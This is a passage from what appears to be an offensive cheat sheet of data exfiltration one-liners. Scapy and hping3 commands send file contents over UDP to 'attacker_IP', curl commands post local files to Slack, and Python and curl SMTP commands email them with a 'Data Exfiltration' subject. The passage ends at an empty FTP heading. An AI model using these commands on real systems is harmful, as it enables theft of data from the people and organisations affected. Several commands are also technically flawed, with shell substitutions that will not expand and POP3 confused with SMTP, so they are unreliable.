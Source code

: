 ### QUIC - No Certificate 

1. **Using scapy in Python to send QUIC packets without encryption:**


`python -c "from scapy.all import *; send(IP(dst='attacker_IP')/UDP(sport=12345, dport=443)/Raw(load='GET /path/to/local/file.txt'))"`

2. **Using hping3 to send QUIC-like UDP packets:**


`echo -n "GET /path/to/local/file.txt" | hping3 -s 12345 -p 443 -2 -c 1 -d 120 -V attacker_IP`



### Slack Exfiltration 

1. **Using Slack API to send a message with data:**


`curl -X POST -H "Authorization: Bearer YOUR_SLACK_TOKEN" -H "Content-Type: application/json" -d '{"channel": "#channel_name", "text": "$(cat /path/to/local/file.txt)"}' https://slack.com/api/chat.postMessage`

2. **Using Slackbot to send a message via Slackbot app:**


`echo -n "$(cat /path/to/local/file.txt)" | slackbot send [slackbot_channel]`

3. **Using Slack API to upload a file with data:**


`curl -F file=@/path/to/local/file.txt -F channels=#channel_name -H "Authorization: Bearer YOUR_SLACK_TOKEN" https://slack.com/api/files.upload`

### POP3 Authentication

1. **Using Python's `smtplib` to send an email via POP3 authentication:**


`python -c "import smtplib; server = smtplib.SMTP('your_SMTP_server', your_SMTP_port); server.starttls(); server.login('your_email@example.com', 'your_password'); server.sendmail('from_email@example.com', 'to_email@example.com', 'Subject: Data Exfiltration\n$(cat /path/to/local/file.txt)'); server.quit()"`

2. **Using `curl` to send an email via SMTP to POP3 gateway:**


`curl --url "smtp://your_SMTP_server:your_SMTP_port" --ssl-reqd --mail-from "from_email@example.com" --mail-rcpt "to_email@example.com" -T "/path/to/local/file.txt" -u "your_email@example.com:your_password"`

3. **Using Python with `smtplib` on Windows Subsystem for Linux (WSL) to send an email via POP3 authentication:**


`python -c "import smtplib; server = smtplib.SMTP('your_SMTP_server', your_SMTP_port); server.starttls(); server.login('your_email@example.com', 'your_password'); server.sendmail('from_email@example.com', 'to_email@example.com', 'Subject: Data Exfiltration\n$(cat /mnt/c/path/to/local/file.txt)'); server.quit()"`

### FTP MKDIR 
